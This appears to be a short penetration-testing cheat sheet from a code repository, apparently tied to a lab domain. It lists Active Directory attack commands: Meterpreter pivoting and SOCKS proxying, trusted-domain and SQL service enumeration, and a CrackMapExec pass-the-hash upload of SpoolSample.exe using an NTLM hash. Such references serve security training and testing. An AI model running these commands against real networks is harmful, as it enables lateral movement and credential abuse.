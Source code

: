 # Cheat Sheet - Utilities

## Table of Contents

* [Tips](#Tips)
* [Setup Proxy](#SetupProxy)
* [Check for trusted domains](#Trusted)
* [Upload files using CrackMapExec](#CrackMapExec)
* [List scheduled tasks](#ListTasks)
* [Enumerate SQL Server](#EnumSQLServer)

### Tips<a name="Tips"></a>

* If the useraccountcontrol had TRUSTED_FOR_DELEGATION mean that the machin is configured to use unconstrained delegation.

* Generic Write can be exploited using PowerMad methode.

### Setup Proxy<a name="SetupProxy"></a>

```bash
meterpreter > run autoroute -s 172.16.112.151
auxiliary/server/socks_proxy
/etc/proxychains.conf
/etc/proxychains4.conf

ssh v0lk3n@192.168.x.x -D 9050  
```

### Check for trusted domains<a name="Trusted"></a>

```bash
nltest /trusted_domains
```

### Upload files using CrackMapExec<a name="CrackMapExec"></a>

```bash
proxychains crackmapexec smb -d dev.sinhack.com -u Administrator -H aad3b435b51404eeaad3b435b51404ee:525ca4cd9965c41b34a453259403f24d --put-file /home/Tools/SpoolSample.exe 
```


### List scheduled tasks (Windows)<a name="ListTasks"></a>

```bash
schtasks /query
```

### Enumerate SQL Server (Windows)<a name="EnumSQLServer"></a>

```bash
setspn -T sinhack.com -Q MSSQLSvc/*
```
